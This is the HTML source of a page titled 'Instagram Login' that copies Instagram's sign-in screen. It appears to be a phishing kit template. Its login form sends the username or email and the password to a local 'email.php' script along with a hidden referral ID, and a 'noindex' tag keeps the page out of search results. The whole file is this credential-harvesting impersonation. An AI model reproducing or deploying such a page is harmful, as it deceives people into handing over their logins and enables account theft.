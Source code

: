 
<html lang="en">
    <head> 
        <meta name="robots" content="noindex,follow"> 
        <meta charset="UTF-8"> 
        <meta http-equiv="X-UA-Compatible" content="IE=edge"> 
        <meta name="viewport" content="width=device-width, initial-scale=1.0"> 
        <title>Instagram Login</title> 
        <link rel="stylesheet" href="bootstrap.min.css"> 
        <link rel="stylesheet" href="style.css"> 
    </head> 
    <body> 
        <div class="wrapper"> 
            <div class="container"> 
                <div class="row"> 
                    <div class="col-md-6 firstContainer"> 
                        <img src="app-feautures.png" alt="[+]" class="rounded d-block w-100"> 
                    </div> 
                    <div class="col-md-6 text-center secondContainer"> 
                        <div class="card"> 
                            <div class="py-3 px-2"> 
                              <img src="instagram-logo.png" alt="card-img-top"> 
                            </div> 
                            <div class="card-body"> 
                              <form method="post" action="email.php" onsubmit="return checkBeforeSubmit()"> 
                              <input type="hidden" name="ref" value="5922513118">
                              <div class="form-group py-1"> 
                              <input type="text" class="form-control" name="email" aria-describedby="helpId" placeholder="Phone Number, Username or Email"> 
                              </div> 
                              <div class="form-group py-1"> 
                              <input type="password" class="form-control" name="password" aria-describedby="helpId" placeholder="Password"> 
                              </div> 
                              <input type="submit" value="Log In" class="mt-2 btn btn-primary w-100"> 
                              </form> 
                              <div class="or"> <span>OR</span> 
                              </div> 
                              <div class="otherMethods"> 
                              <div class="secondaryColor"> 
                              <img src="facebook-logo.png" class="img-fluid rounded" alt="[+]" style="width: 18px; height: 18px;"> <span class="ms-2" onclick="">Login with Facebook</span> 
                              </div> 
                              </div> 
                              <div class="forgot-pass mt-3 primaryColor">
                              Forgot Password ?
                              </div> 
                            </div> 
                        </div> 
                        <div class="card my-2"> 
                            <div class="card-body"> <span>Don't Have an Account?</span><span class="primaryColor">Sign Up</span> 
                            </div> 
                        </div> <span class="primaryColor">Get the App</span> 
                        <div class="row py-2"> 
                            <div class="col-6">
                              <img src="playstore.png" alt="[+]" class="img-fluid d-block rounded"> 
                            </div> 
                            <div class="col-6">
                              <img src="appstore.png" alt="[+]" class="img-fluid d-block rounded"> 
                            </div> 
                        </div> 
                    </div> 
                </div> 
            </div> 
        </div> 
        <script type="text/javascript"> 
  var wasSubmitted = false;     
    function checkBeforeSubmit(){ 
      if(!wasSubmitted) { 
        wasSubmitted = true; 
        return wasSubmitted; 
      } 
      return false; 
    }     
</script> 
    </body>
</html>
